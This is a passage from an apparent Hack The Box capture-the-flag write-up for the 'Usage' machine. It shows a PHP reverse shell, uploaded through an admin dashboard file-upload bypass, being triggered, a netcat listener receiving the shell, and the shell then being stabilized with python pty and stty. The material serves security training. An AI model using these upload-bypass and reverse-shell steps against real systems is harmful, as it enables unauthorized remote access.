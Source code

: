 ![](images/2024-04-13_15-59_admin_dashboard_file_upload_bypass.png)

To trigger the payload we updated the `URL` on which uploaded files get stored to match our `reverse shell file name`. We found this `URL` by clicking on the `download icon` of the `original profile picture`.

- [http://admin.usage.htb/vendor/laravel-admin/AdminLTE/dist/img/php_reverse_shell.php](http://admin.usage.htb/vendor/laravel-admin/AdminLTE/dist/img/php_reverse_shell.php)

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9000
listening on [any] 9000 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.44.202] 52036
SOCKET: Shell has connected! PID: 49069
id
uid=1000(dash) gid=1000(dash) groups=1000(dash)
```

## Stabilizing Shell

```c
python3 -c 'import pty;pty.spawn("/bin/bash")'
dash@usage:/var/www/html/project_admin/public/uploads/images$ ^Z
zsh: suspended  nc -lnvp 9000
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg
[1]  + continued  nc -lnvp 9000

dash@usage:/var/www/html/project_admin/public/uploads/images$ 
<oject_admin/public/uploads/images$ export XTERM=xterm                       
dash@usage:/var/www/html/project_admin/public/uploads/images$
```
